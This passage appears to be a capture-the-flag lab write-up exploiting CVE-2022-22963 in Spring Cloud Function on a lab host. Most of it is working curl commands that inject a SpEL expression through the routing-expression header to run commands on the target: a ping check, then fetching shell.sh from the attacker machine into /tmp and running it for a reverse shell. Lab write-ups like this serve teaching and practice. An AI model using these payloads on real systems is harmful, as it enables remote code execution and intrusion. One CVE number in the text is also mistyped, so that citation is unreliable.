 ```xml
```

It is using `org.springframework.cloud:spring-cloud-function-core` versions  3.2.2, which is vulnerable for CVE-2022-2296 - https://github.com/dinosn/CVE-2022-22963

## CVE-2022-22963

Details - https://sysdig.com/blog/cve-2022-22963-spring-cloud/

```bash
curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping -c2 10.10.14.50")' --data-raw ''
```

![](screenshots/http-10.129.35.27-8080-sprintboot-rce.png)

and get reverse shell with curl upload and then execute.
```bash
curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.50:8000/shell.sh -o /tmp/shell.sh")' --data-raw ''

curl -X POST  http://10.129.35.27:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/shell.sh")' --data-raw ''
```

![](screenshots/http-10.129.35.27-8080-sprintboot-revshell.png)
